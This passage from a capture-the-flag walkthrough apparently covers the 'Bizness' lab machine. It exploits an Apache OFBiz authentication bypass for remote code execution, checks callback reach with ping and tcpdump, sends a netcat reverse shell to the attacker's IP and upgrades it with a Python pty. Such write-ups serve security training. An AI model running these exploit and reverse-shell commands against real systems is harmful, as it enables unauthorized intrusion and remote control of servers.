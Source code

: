 ### Exploiting for Remote Code Execution (RCE)

Found the repo [Apache-OFBiz-Authentication-Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) - testing the RCE with `whoami` command does not return anything back

```bash
$ python3 exploit.py --url https://bizness.htb/ --cmd 'whoami'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.

```

I tested if it could reach out to my machine:
- I ran `sudo tcpdump -i tun0 icmp` 
- Send the payload `python3 exploit.py --url https://bizness.htb/ --cmd 'ping -c 3 10.10.14.31'

Received the **ICMP echo packets**, Verifying that the it can reach back.

```bash
$ sudo tcpdump -i tun0 icmp
[sudo] password for ctf: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
20:53:18.545011 IP bizness.htb > 10.10.14.31: ICMP echo request, id 16497, seq 1, length 64
20:53:18.545051 IP 10.10.14.31 > bizness.htb: ICMP echo reply, id 16497, seq 1, length 64
20:53:19.547226 IP bizness.htb > 10.10.14.31: ICMP echo request, id 16497, seq 2, length 64
20:53:19.547267 IP 10.10.14.31 > bizness.htb: ICMP echo reply, id 16497, seq 2, length 64
20:53:20.549253 IP bizness.htb > 10.10.14.31: ICMP echo request, id 16497, seq 3, length 64
20:53:20.549294 IP 10.10.14.31 > bizness.htb: ICMP echo reply, id 16497, seq 3, length 64

```

I send the rev shell `python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/bash 10.10.14.31 1337'`

```bash
$ python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/bash 10.10.14.31 1337'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.

```

Got shell as the `ofbiz` user.

## Shell ofbiz

I upgraded the shell using Python3

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```
